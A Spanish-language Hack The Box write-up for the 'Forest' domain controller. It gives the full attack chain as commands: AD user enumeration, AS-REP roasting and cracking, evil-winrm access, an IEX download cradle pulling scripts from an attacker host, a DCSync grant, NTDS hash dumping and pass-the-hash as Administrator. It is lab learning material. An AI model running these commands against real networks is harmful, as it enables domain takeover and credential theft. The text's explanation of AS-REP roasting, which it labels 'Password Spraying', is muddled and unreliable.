# FOREST - HACK THE BOX - EASY

# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL



TTL = 127
Indica que es un equipo Windows
Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.161 -oG PortStatus



Puertos abiertos
* 445
* 135
* 53
* 139
* 389
* 5985
* 47001
* 49706
* 636
* 3268
* 49677
* 49684
* 464
* 88
* 49664
* 9389
* 49670
* 49919
* 593
* 49676
* 49666
* 49667
* 3269
* 49665

Escaneo de servicios en puertos abiertos 

nmap -p445,135,53,139,389,5985,47001,49706,636,3268,49677,49684,464,88,49664,9389,49670,49919,593,49676,49666,49667,3269,49665 -sCV 10.10.10.161 -oN services







* 64bits
* Name: Forest
* Windows Server 2016 Standar 14393
* Dominio: htb.local
* SMB firmado
* SMBv1

Enumero recursos compartidos en la red sin credenciales
smbclient -L 10.10.10.161 -N



No me enumera nada sin credenciales

Envío solicitudes DNS para detectar si es vulnerable al ataque de Domain Zone 	Transfer (AXFR)

Envío solicitud DNS a 10.10.10.161 indicando el dominio htb.local 

dig @10.10.10.161 htb.local



Enumero servidores de correo
dig @10.10.10.161 htb.local mx


Enumero Name Servers

dig @10.10.10.161 htb.local ns



AXFR pero no me detalla nada

# Explotación y movimiento lateral



Como es un DC uso RCPCLIENT para intentar enumerar usuarios
rpcclient -U “” 10.10.10.161 -N



Creo archivo users.txt y filtro solo para quedarme con los usuarios del dominio

rpcclient -U "" 10.10.10.161 -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users.txt

Listo la información de los usuarios



Ataque Kerberos, intento obtener algún ticket TGT de usuario de dominio usando la autenticación "Kerberos Pre-Authentication". Si un usuario tiene habilitada la opción de "Kerberos Pre-Authentication" pero tiene una contraseña débil o en blanco, podríamos obtener un ticket TGT para ese usuario, y nos devolvería la contraseña de ese usuario.

python3 GetNPUsers.py -no-pass -usersfile /home/kali/Desktop/users.txt htb.local/



Hash encontrado para el usuario svc-alfresco: $krb5asrep$23$svc-alfresco@HTB.LOCAL:533b6650fbcbbb9fa106596e789e7bdc$6329cf0c69883b41ced1ef9efe349cd5e815600444384f8c7505498b7d4adf170f83fdf9290cc6fb1c9fd1d6570e080c609e66b7d07bfabbbb1f4788306ff75aef15f827a73d75034b6ef48f461a9df010f7ef31d44edfba06feea6c1f28a8b8151d2d9834a14d6063b9c2a61915676ef35009f08d94e0c600f3be849629a862c7795892081196a950d76cd010a278afac1921de55498462ff53863935eb67c34322f6cf2b625feaecade51238659f39dc4376e5aa010f86b9fcc53cd7643501d4d197ac5aa4fc146bf48672c61535d5080ffbb7d763d3adf19b95101d58b943101d081262bd

Crackeo el hash con john

john -w:/home/kali/Downloads/SecLists/Passwords/Leaked-Databases/rockyou.txt /home/kali/Desktop/hash



Obtengo contraseña: s3rvice

Pruebo las credenciales por SMB
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'



Pruebo las credenciales por WINRM porque está abierto el puerto 5985
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'



Me conecto con Evil-WinRM
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice



# Explotación WEB

# Escalada de privilegios

Extraigo la información de usuarios, grupos y privilegios del AD con ldapdomaindump

ldapdomaindump -u 'htb.local\svc-alfresco' -p 's3rvice' 10.10.10.161



Desde la consola obtengo la flag de user



Inicio bloodhound





Descargo SharpHound para recolectar los archivos necesarios para bloodhound
wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1



Envío SharlHound.ps1 a la máquina víctima
IEX(New-Object Net.WebCLient).downloadString('http://10.10.14.8/SharpHound.ps1')



Invoco la función del script CollectionMethod para recopilar la información



Descargar .zip al directorio donde se está ejecutando Evil-WinRM

download c:\Users\svc-alfresco\Desktop\bloodhound\20230330160316_BloodHound.zip collect.zip



Analizo en BloodHound
Detecto el grupo “Exchange Windows Permissions”



Creo un usuario

net user lhkl lhkl9!. /add /domain



Lo agrego al grupo Exchange Windows Permissions



$SecPassword = ConvertTo-SecureString 'lhkl9!.' -AsPlainText -Force



$Cred = New-Object System.Management.Automation.PSCredential('htb.local\lhkl', $SecPassword)



Descargo https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

Envío el script a la máquina víctima
IEX(New-Object Net.WebCLient).downloadString('http://10.10.14.8/PowerView.ps1')



Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity lhkl -Rights DCSync

Otra forma de enviar el archivo a la máquina víctima

python3 smbserver.py compartido /home/kali/Desktop -smb2support

Invoke-WebRequest -Uri '\\10.10.14.8\compartido\PowerView.ps1' -OutFile 'C:\users\svc-alfresco\Desktop\PowerView.ps1'



Ejecuto secretsdump.py y obtengo los hashes de todos los usuarios

python3 secretsdump.py htb.local/lhkl@10.10.10.161

ó

crackmapexec smb 10.10.10.161 -u lhkl -d htb.local --ntds vss -o NTDS.dump

Me conecto como Administrator con Evil-winRM
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'



# Links útiles

* https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1
* www.google.com
  
  
## Lenguajes utilizados

* Powershell
## Vulnerabilidades en aplicaciones
## Ataques
* Domain Zone 	Transfer (AXFR) | dig : El ataque de "Domain Zone Transfer" (AXFR) es una técnica utilizada para obtener información confidencial de un servidor DNS que no está configurado adecuadamente. Este ataque se aprovecha de una función en el protocolo DNS que permite a los servidores DNS compartir información sobre los registros de DNS de un dominio.

En un ataque de Domain Zone Transfer, un atacante envía una solicitud AXFR al servidor DNS del dominio, solicitando una copia de la información completa sobre los registros DNS del dominio. Si el servidor DNS está configurado para permitir este tipo de solicitudes, enviará una copia completa de los registros DNS del dominio al atacante, incluyendo información sensible como nombres de host, direcciones IP, registros MX, registros de correo electrónico y otros datos relacionados con el dominio.

Este tipo de ataque puede ser especialmente peligroso para las organizaciones ya que permite al atacante obtener información detallada sobre la infraestructura de red y los sistemas de la organización, lo que puede facilitar ataques posteriores.

En este caso cuando lo intentamos no nos arrojó ninguna información

* "Password Spraying" | GetNPUsers.py : Intenta obtener tickets TGT de usuarios de un dominio Active Directory utilizando el tipo de autenticación "Kerberos Pre-Authentication". En esta máquina GetNPUsers.py utiliza una lista de usuarios en un archivo llamado "users.txt" y no proporciona una contraseña para cada usuario (de ahí el uso del parámetro "-no-pass"). En lugar de ello, intenta autenticarse en el dominio utilizando una contraseña en blanco para cada usuario.

Si un usuario en el dominio tiene habilitada la opción de "Kerberos Pre-Authentication" pero tiene una contraseña débil o en blanco, obtendremos un ticket TGT para ese usuario, lo que nos permitiría crackear el hash, obtener la contraseña y acceder a los recursos protegidos por Kerberos en el dominio.

## Escalada de privilegios
* Grupo Exchange Windows Permissions
* Creación de usuario
* Agregar grupo 
* Abusando WriteDACL
## Exploits
## Herramientas
* ping : Identificar sistema operativo
* nmap : Identificar puertos TCP abiertos y servicios
* crackmapexec : Obtener características del equipo
* smbclient : Enumerar recursos compartidos en la red sin credenciales mediante el puerto TCP 445 o 139
* dig : Analizar información expuesta por los DNS
* rpcclient : Autenticar sin credenciales para enumerar usuarios y grupos válidos
* Python3 GetNPUsers.py : Realizar un "Password Spraying" obteniendo un ticket TGT para crackear
* john : Para crackear el ticket TGT obtenido con GetNPUsers.py
* evil-winrm : Para acceder con credenciales a un equipo windows por el puerto TCP 5985 o TCP 5986
* ldapdomaindump : Para extraer información de un dominio, usuario, grupos, indicadores de segurid(SID), descripciones, permisos, estructura organizativa, etc
* bloodhound : Análisis de seguridad de red, para detectar alternativas para escalar privilegios
* Sharphound.ps1 : script para recopilar información sobre usuarios, grupos, equipos, permisos, etc. Arroja un .zip para subir a Bloodhound.
* secretsdump.py : Para extraer contraseñas y hashes almacenados en equipos Windows
* crackmapexec : En esta máquina también la usamos para usar la técnica VSS Shadow Copy para extraer la base de datos de contraseñas de NTDS

